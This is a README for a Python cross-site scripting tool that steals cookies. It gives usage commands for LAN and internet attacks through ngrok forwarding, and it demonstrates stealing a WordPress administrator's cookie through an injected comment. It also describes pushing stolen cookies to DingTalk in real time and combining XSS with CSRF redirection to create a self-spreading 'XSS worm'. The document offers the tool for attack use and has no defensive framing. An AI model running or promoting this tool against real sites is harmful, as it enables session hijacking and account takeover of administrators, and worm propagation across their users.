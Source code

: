 # XSS steals cookies
* The current version V3.4 updates the remote push of nails, so that you can receive victim information in real time on Android without having to face the host
* Update the redirection function, you can use CSRF to create XSS worm attacks
* Python version 3.6 or above
* Obtain the victim's public IP address and cookie
* Compatible with Windows or Linux
## usage method
  * View help information

      ```#python3 XSS_Tool_V3.4.py -h```

  ![图片名称](./Demo_image/Help3.png "Help")  

  * LAN attack

      ```#python3 XSS_Tool_V3.4.py -lp (Local port)```

  * Internet attack

      ```#python3 XSS_Tool_V3.4.py -t -lp (Local port) -rh (Remote host IP) -rp (Remote host port)```

## Effect demonstration 
 * We will use WordPress-6.1.1 for XSS attack simulation test
 * _If your machine has a public IP address, just listen to the local port_

# Use Extranet attack
* Enable port forwarding (Ngrok is used for demonstration)

    ![图片名称](./Demo_image/forwarding.png "Port forwarding")  


* Use Extranet attack

    ```#python3 XSS_Tool_V3.4.py -t -rh http://xxx.xxx.xxx -rp 10029```

    ![图片名称](./Demo_image/Internet2.png "Extranetattack")  


# Use Intranet attack [Do not push messages Test]
-----------------Hacker--------------------------
* You can use the - lp parameter to specify the port. If you do not write, the default port is 8888

```#python3 XSS_Tool_V3.4.py```

![图片名称](./Demo_image/Runing3.png "Run")  

* Copy payload and inject XXS injection point

![图片名称](./Demo_image/Hacking.png "Run")  

----------------Server Admin------------------------

* Normal status of administrator

![图片名称](./Demo_image/Admin_no_hack.png "Admin_no_hack")  

* The administrator was hacked to execute malicious code when viewing comments

![图片名称](./Demo_image/Admin_hacked2.png "Admin_hacked2")  

-----------------Hacker--------------------------
* Hacker gets the administrator's cookie

![图片名称](./Demo_image/Hack_Get_Cookie3.png "Hack_Get_Cookie")

# Use Intranet attack[Message push]
* @1.Use the parameter options - dt and - dk for push settings

```#python3 XSS_Tool_V3.4.py -dt xxxxx... -dk xxx```

![图片名称](./Demo_image/HackDT.png "Run")  

* @2.Or directly use the parameter dcf, provided that you have configured the parameters in the DingTalk.conf file


1.You must modify the parameters in the DingTalk.conf file to use the - dcf option

![图片名称](./Demo_image/DingTalk_Config.png "Run")  

2.The - dcf option can be used after configuration

```#python3 XSS_Tool_V3.4.py -dcf```

![图片名称](./Demo_image/Config_OK.png "Run")  

* Copy payload and inject XXS injection point



----------Injection is the same as the above demonstration steps---------------

* After the administrator cookie is obtained, it will be automatically pushed to the DingTalk platform

![图片名称](./Demo_image/PUSH.png "Run")  

* Android perspective

![图片名称](./Demo_image/Android.jpg "Run")  

# Use Intranet attack [XSS And CSRF Test]

* CSRF shooting range

![图片名称](./Demo_image/Login_Pikachu.png "Run")  

* Select the parameter - rd to redirect

![图片名称](./Demo_image/CSRF_XSS.png "Run")  

* The administrator accesses and executes malicious code and is redirected

![图片名称](./Demo_image/CSRF_Hacked.png "Run")  

##^^^You can create an XSS worm for network propagation